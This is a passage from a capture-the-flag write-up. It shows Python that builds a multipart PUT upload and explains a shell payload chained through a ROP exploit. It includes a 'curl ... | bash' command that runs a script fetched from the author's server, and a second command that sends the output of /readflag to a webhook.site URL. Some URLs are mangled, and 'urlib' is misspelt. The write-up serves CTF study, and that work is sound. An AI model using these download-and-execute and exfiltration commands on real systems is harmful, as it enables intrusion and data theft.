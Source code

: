 ```python
    f"{dash_boundary}\r\n"
    'Content-Disposition: form-data; name="text"\r\n\r\n'
    "asdfasdfasdf\r\n"
).encode()

body += (
    f"{dash_boundary}\r\n"
    'Content-Disposition: form-data; name="rating"\r\n\r\n'
    "5\r\n"
).encode()

body += (
    f"{dash_boundary}\r\n"
    f'Content-Disposition: form-data; name="image"; filename*={filename_rfc5987}\r\n'
    "Content-Type: text/html\r\n\r\n"
).encode()
body += file_content + b"\r\n"
body += (f"{dash_boundary}--\r\n").encode()

headers = {
    "Content-Type": f"multipart/form-data; boundary={boundary}",
}

resp = session.put(URL + f'/api/answers/{answer_id}', data=body, headers=headers)
print(resp.status_code, resp.text)

```

In my environment, file descriptor (fd) number **12** worked.

Also, because the ROP chain has a limited size, I configured the payload with a minimal length to execute a shell.

To do this, I used the following command:

```bash
curl [https://predo.run.goorm.site|bash](https://predo.run.goorm.site%7Cbash)
```

This command executes the response sent from my server directly using **bash**.

Also, I placed the following command on my server:

```bash
curl -k "[https://webhook.site/c9b79407-0e3d-41ce-a5bd-ccd1ba099ef0?q=$(/](https://webhook.site/c9b79407-0e3d-41ce-a5bd-ccd1ba099ef0?q=$(/readflag*)%5C%5C)readflag*|python3 -c 'import sys, urlib.parse; print(urlib.parse.quote(sys.stdin.read()))')"
```

This setup causes the target server to connect to my server and execute `curl`. The output of `/readflag*` is then URL-encoded and sent directly back.

Specifically, if the **FLAG** contains spaces, it might not be transmitted correctly. To prevent this, I used Python's `urllib.parse.quote` to ensure the **FLAG** value was URL-encoded before being sent.
